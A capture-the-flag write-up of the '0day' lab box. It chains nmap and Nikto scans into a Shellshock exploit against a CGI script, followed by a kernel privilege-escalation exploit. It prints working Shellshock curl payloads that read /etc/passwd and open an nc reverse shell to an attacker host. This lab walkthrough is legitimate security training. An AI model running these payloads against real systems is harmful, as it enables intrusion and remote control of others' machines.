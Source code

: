 ```yaml
---
layout: default
title : muzec - 0day Writeup
---
```


![Image](https://imgur.com/TApyiQS.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-13 05:33 EST
Nmap scan report for 10.10.78.18
Host is up (0.14s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.95 seconds
```

Just 2 open ports 22,80 let hit port 80 to see what is running....

![Image](https://imgur.com/uk7OYXp.png)

Hmm a simple page nothing in the source page also let try and run Nikto on it are you thinking what is Nikto?? Nikto is a free software command-line vulnerability scanner that scans webservers for dangerous files/CGIs, outdated server software and other problems. It performs generic and server type specific checks. It also captures and prints any cookies received.

Scanning with nikto we got some good result.

![Image](https://imgur.com/7QJQAc4.png)

Yea you see it clear it a f#cking 'shellshock' vulnerability cool so fast also let exploit it.

/cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability let try some shellshock command first of all let try to read /etc/passwd file.

```curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" <Target-IP>/cgi-bin/test.cgi```

![Image](https://imgur.com/u1ozFmr.png)

Boom hell yea... Let get a [reverse shell](https://muzec0318.github.io/posts/ReverseShell.html) easily by editing the command check down below;

```curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f'" <Target-IP>/cgi-bin/test.cgi```

Open another terminal to start an Ncat listener.

![Image](https://imgur.com/wX7jQWo.png)

Now let hit the command...

```curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f'" <Target-IP>/cgi-bin/test.cgi```

![Image](https://imgur.com/NhdVbHH.png)

Going back to our Ncat listener we have a shell already pretty sweet right?? [let spawn a tty shell](https://muzec0318.github.io/posts/Ttyshells.html) to bring out the beauty lol.

```python -c 'import pty; pty.spawn("/bin/bash")'```

![Image](https://imgur.com/FJCU7i4.png)

Now let go get our user.txt in the home directory.

![Image](https://imgur.com/aj8g1rw.png)

Boom time to root the box Privilege Escalation, what is Privilege Escalation? Privilege escalation is the act of exploiting a bug, design flaw or configuration oversight in an operating system or software application to gain elevated access to resources that are normally protected from an application or user.

Let check the version of the operating system first ```uname -a```

![Image](https://imgur.com/YCDMRns.png)

Hmmm pretty old right?? let do a little research on it.

![Image](https://imgur.com/t1fO9Nm.png)

Boom we have a lead let hit it...... let download exploit to our machine.

![Image](https://imgur.com/acl1XV4.png)

Cool now let get it to the target machine we can easily use SimpleHTTPServer to transfer our file.

![Image](https://imgur.com/XM9Wbxf.png)

Now let change directory to /tmp in the target machine to wget the exploit.

![Image](https://imgur.com/EjelFQc.png)

Cool now let complie the exploit and run it we can easily complie it with gcc like ```gcc 37292.c -o exploit```

![Image](https://imgur.com/6pYnEOX.png)

Now let run it...

![Image](https://imgur.com/NRqfweQ.png)

We are root 0day box rooted hope you have fun??? 

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
